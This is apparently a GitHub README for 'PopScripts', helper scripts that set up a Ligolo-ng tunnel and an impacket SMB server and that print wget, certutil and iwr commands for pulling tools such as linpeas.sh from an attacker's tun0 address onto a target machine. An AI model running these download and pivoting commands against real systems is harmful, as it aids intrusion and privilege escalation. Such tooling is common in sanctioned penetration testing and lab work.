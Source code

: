# PopScripts
This repo includes three scripts to make using ligolo, impacket-smbserver, and transferring files slightly easier by automating required steps and echoing certain commands such that they can be copy/pasted into a new window on a arget machine. 


## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/liggy/liggy.sh && ln -s /opt/liggy/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 

## served
This script prints cerutil, iwr, and wget commands to be run on a remote target to download files from your machine. The default IP is your tun0 (-IP), the default port (-p) is 80, and the default file (-f) is `file`, but the script can be run with any of those flags. 

Run `sudo chmod +x /opt/PopScripts/served.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served` to be able to call it as liggy from any directory. 

Ex: `served -p 443 -f linpeas.sh`
Output:
`wget http:{tun0}:443/linpeas.sh`
`certutil.exe -f -split -urlcache http:{tun0}:443/linpeas.sh -o linpeas.sh`
`iwr -uri http://{tun0]:443/linpeas.sh -o linpeas.sh`

## speedysmb

This script exists to automate the creation of an impacket-smbserver (https://github.com/fortra/impacket/blob/master/examples/smbserver.py) by requesting a username and password, and then printing the commands that need to be run on a remote machine to transfer files. 

Run `sudo chmod +x /opt/PopScripts/speedysmb.sh && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb` to be able to call it as speedysmb from any directory.

## liggy
This script exists to automate the setup of the Ligolo-ng (https://github.com/nicocha30/ligolo-ng) proxy. It requires Ligolo to be in the /opt folder. It requires an IP range to set up a tunnel, but it will accept a specific IP range or a single IP and convert to the IP range of 0/24. 

Run `sudo chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy` to be able to call it as liggy from any directory. 


## to create symbolic links for all of them

Run `sudo chmod +x /opt/PopScripts/served.sh && chmod +x /opt/PopScripts/speedysmb.sh chmod +x /opt/PopScripts/liggy.sh && ln -s /opt/PopScripts/served.sh /usr/local/bin/served && ln -s /opt/PopScripts/speedysmb.sh /usr/local/bin/speedysmb && ln -s /opt/PopScripts/liggy.sh /usr/local/bin/liggy`

Or run `sudo ./link.sh`

